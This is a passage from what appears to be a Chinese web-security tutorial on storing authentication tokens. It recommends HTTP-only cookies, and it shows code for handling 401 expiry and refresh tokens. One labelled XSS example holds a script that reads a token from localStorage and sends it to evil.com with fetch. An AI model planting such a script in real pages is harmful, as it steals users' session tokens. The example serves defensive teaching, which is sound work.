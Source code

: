 ```javascript
// 危险示例
localStorage.setItem('token', token);

// XSS 攻击示例
<script>
  // 恶意脚本可以轻易获取
  const token = localStorage.getItem('token');
  fetch('https://evil.com/steal?token=' + token);
</script>
```

#### ✅ 推荐用 HTTP-only Cookie

- 浏览器禁止 JavaScript 访问
- 可防 XSS 攻击
- 配合 `SameSite=Strict` 可防 CSRF 攻击

```javascript
// 服务器端设置
res.cookie('token', token, {
  httpOnly: true,       // 防止 XSS
  secure: true,         // 仅 HTTPS
  sameSite: 'strict',   // 防止 CSRF
  maxAge: 3600000       // 1小时过期
});
```

### 4.2 过期处理

#### 监听 401 状态码

```javascript
// Axios 拦截器示例
axios.interceptors.response.use(
  response => response,
  error => {
    if (error.response?.status === 401) {
      // 令牌过期，跳转登录页
      localStorage.removeItem('token');
      window.location.href = '/login';
    }
    return Promise.reject(error);
  }
);
```

#### 使用刷新令牌（Refresh Token）

```javascript
// 登录时返回两个令牌
{
  "accessToken": "短期令牌（15分钟）",
  "refreshToken": "长期令牌（7天）"
}

// accessToken 快过期时，用 refreshToken 换取新令牌
async function refreshAccessToken() {
  const response = await fetch('/api/refresh', {
    method: 'POST',
    headers: {
      'Authorization': `Bearer ${refreshToken}`
    }
  });
  const { accessToken } = await response.json();
  localStorage.setItem('token', accessToken);
}
```